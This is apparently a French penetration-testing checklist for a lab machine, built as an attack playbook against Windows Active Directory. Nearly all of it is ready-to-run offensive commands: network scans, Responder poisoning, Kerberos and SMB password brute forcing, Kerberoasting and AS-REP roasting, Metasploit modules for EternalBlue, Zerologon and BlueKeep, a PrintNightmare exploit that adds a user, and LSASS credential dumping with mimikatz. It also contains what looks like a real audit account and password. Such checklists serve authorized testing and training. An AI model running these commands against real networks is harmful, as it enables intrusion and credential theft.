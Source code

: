 # Box

![](img/pic.png)

* IP :
* Difficulté :
* OS :



## 1. Foothold

### 1.1 Reconnaissance globale

#### 1.1.1 Nmap

```bash
$ nmap -sC -sV -T4 -p- <RANGE_IP/masque>

```

```bash
$ sudo nmap -sU <RANGE_IP/masque>

```

```bash
$ nmap -sS --open -T4 <RANGE_IP/MASQUE>
```



### 1.2 Reconnaissance Windows

Faire chacun des [tests sans identifiants](attaques_sans_id.md).



### 1.3 Analyse des éléments énumérés / exploitation





## 2. Avec des identifiants du domaine

> Objectifs : 
>
> - Récupérer d'autres utilisateurs du domaine
> - Passer local admin / SYSTEM

### 2.1 Récolte d'informations

#### 2.1.1 LLMNR-NBT-NS

```bash
$ sudo responder -I eth0 -wFv
```



#### 2.1.2 Bloodhound

```bash
# Récupération des informations du domaine
$ bloodhound-python -d <DOMAIN.COM> -u '<USER_VALIDE>' -p '<MDP_VALIDE>' -gc <NOM_DC> -c all -ns <IP_DNS>
```



#### 2.1.3 Récupération des informations du domaine

```bash
# Résulats dans le répertoire "csv"
$ ./goddi-linux-amd64 -username="USER" -password='MOT_DE_PASSE' -domain="DOMAINE.DOMAINE" -dc="DC.DOMAINE" -unsafe
```



#### 2.1.4 Récupération de la politique de mot de passe / bruteforce

```bash
# Soit : avec Goddi à distance (dans le fichier Domain_Account_Policy.csv)
$ ./goddi-linux-amd64 -username="USER" -password='MOT_DE_PASSE' -domain="DOMAINE.DOMAINE" -dc="DC.DOMAINE" -unsafe

# Soit : avec cme
$ crackmapexec smb <IP_DC> -u 'USER' -p 'MOT_DE_PASSE' -d 'DOMAINE.DOMAINE' --pass-pol 
```

**Si pas de lock ** (`Account Lockout Threshold`) :

```bash
# Si Kerberos (port 88 ry 464)
# Bruteforce d'un mot de passe d'un utilisateur connu via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <DOMAIN_CONTROLLER> -d <DOMAIN.COM> <PASSWORD_WORDLIST> <USER_VALIDE>    

# Si partage SMB accessible
# Bruteforce d'un mot de passe d'un utilisateur connu sur un partage SMB
$ crackmapexec smb <IP_DC> -u <USERS_VALIDES_WORDLIST> -p <PASSWORD_WORDLIST> --continue-on-success
```



#### 2.1.5 Liste des shares

```bash
$ crackmapexec smb <RANGE_IP/MASQUE> -u 'USER' -p 'MOT_DE_PASSE' --shares  
```



#### 2.1.6 Récupération des fichiers légers des shares puis GREP

```bash
# Résultats dans /tmp/cme_spider_plus
$ crackmapexec smb <RANGE_IP/MASQUE> -u 'USER' -p 'MOT_DE_PASSE' -M spider_plus -o READ_ONLY=false

# Différents GREP pouvant permettre de récupérer des identifiants
$ cd /tmp/cme_spider_plus
$ grep -Ria -C 10 'secret'
$ grep -Ria -C 10 'password'
$ grep -Ria -C 10 'admin'
$ grep -Ria -C 10 'pass'
$ grep -Ria -C 10 'sql'
$ grep -Ria -C 10 'token'
```



#### 2.1.7 Kerberoasting

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```



#### 2.1.8 ASREP-Roasting

```bash
# Avec ID, requête sur l'annuaire et vérifie si la pré-auth Kerberos est activée pour chaque compte du domaine
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> '<DOMAINE.DOMAINE>/USER:<MOT_DE_PASSE>'

# Sans ID, bruteforce et demande pour chaque utilisateur dans la liste fournie s'il peut récupérer son TGT
$ impacket-GetNPUsers 'DOMAIN/USERNAME' <USER_LIST> -no-pass
```





### 2.2 Exploitation

#### 2.2.1 MS14-025 (gpp_password)

```bash
$ crackmapexec smb <IP_DC> -u "auditeur.01" -p 'Winamax@2022!' -M gpp_password
```

#### 2.2.2 MS17-010 (ethernal-blue)

```bash
$ msfconsole
use scanner/smb/smb_ms17_010
```

#### 2.2.3 Zero logon

```bash
$ msfconsole
use admin/dcerpc/cve_2020_1472_zerologon
```

#### 2.2.4 Bluekeep

```bash
$ msfconsole
auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

#### 2.2.5 Print-Nightmare

```bash
# Sur la machine, sans AV donc
$ git clone https://github.com/calebstewart/CVE-2021-1675
# Sur une console powershell
Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "slash" -NewPassword "slash"
```

#### 2.2.6 Winpeas

```bash
# Sur la machine, sans AV donc
# upload winPeas.exe
&> .\winPEASany.exe
# pour avoir les bonnes couleurs
&> REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1

# Si AV, essayer le .bat
```



## 3. Avec des identifiants local admin / SYSTEM

### 3.1 Récolte d'informations

#### 3.1.1 Dump LSASS

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe
```



## 4. En dernier recours

### 4.1 Web

#### 4.1.1 Dirsearch

```bash
$ python3 /opt/dirsearch-git/dirsearch.py -u "http://FQDN" -e php,txt,go,json --random-agent -x 500,404,400
```

#### 4.1.2 Gobuster

```bash
$ gobuster vhost -u http://FQDN -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 | grep 200
```

#### 4.1.3 Gospider

```bash
# Profondeur de 5
$ gospider -s http://FQDN -d 5
```



### 4.2 Imprimantes

> Ressources :
>
> - http://hacking-printers.net/wiki/index.php/File_system_access
> - http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2010-4107
> - CVE 2022-24292 : à suivre ...

```bash
$ python pret.py <IP_IMPRIMANTE> pjl
# Activer le mode debug
SHELL_PRET:/> debug
# Enumération des répertoires visibles et listables 
SHELL_PRET:/> fuzz path
```



## 5. Annexes

### 5.1 Identifiants


